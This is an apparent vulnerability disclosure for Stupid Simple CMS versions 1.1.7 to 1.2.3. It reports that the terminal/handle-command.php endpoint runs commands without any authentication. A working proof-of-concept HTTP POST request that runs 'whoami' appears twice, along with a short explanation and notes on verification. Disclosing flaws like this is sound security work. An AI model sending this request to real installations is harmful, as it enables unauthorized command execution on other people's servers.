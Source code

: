product： Stupid Simple CMS ( Blogger )

version：Version 1.1.7 - Version 1.2.3

Download link： https://github.com/codelyfe/Stupid-Simple-CMS/releases/tag/v1.2.3

## POC:
```shell
POST http://localhost/terminal/handle-command.php HTTP/1.1
Host: localhost
Content-Length: 14
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/terminal/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

command=whoami
```
## Vulnerability principle（漏洞原理）:  
The code audit found that there was no authentication operation in the execution command interface. Can result in unauthorized rce.  
So you only need to send a POST request to handle-command.php to RCE.
代审发现执行命令界面未进行鉴权操作。
product： Stupid Simple CMS ( Blogger )
version：Version 1.1.7 - Version 1.2.3
## POC:
```shell
POST http://localhost/terminal/handle-command.php HTTP/1.1
Host: localhost
Content-Length: 14
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/terminal/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

command=whoami
```
## Vulnerability principle（漏洞原理）:  
The code audit found that there was no authentication operation in the execution command interface. Can result in unauthorized rce.  
So you only need to send a POST request to handle-command.php to RCE.
代审发现执行命令界面未进行鉴权操作。
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312091131679.png)
## Vulnerability verification（漏洞验证）：
Local authentication（本地验证）：
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312091131290.png)
Official website demonstration address verification（demo验证）：
The demo page is already being patched and the author says it will be removed before the next version is released.
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312091131024.png)

There are still vulnerabilities in version < 1.2.3. 
The previously submitted issue has been closed by the author.
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312131749695.png)
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312131749868.png)
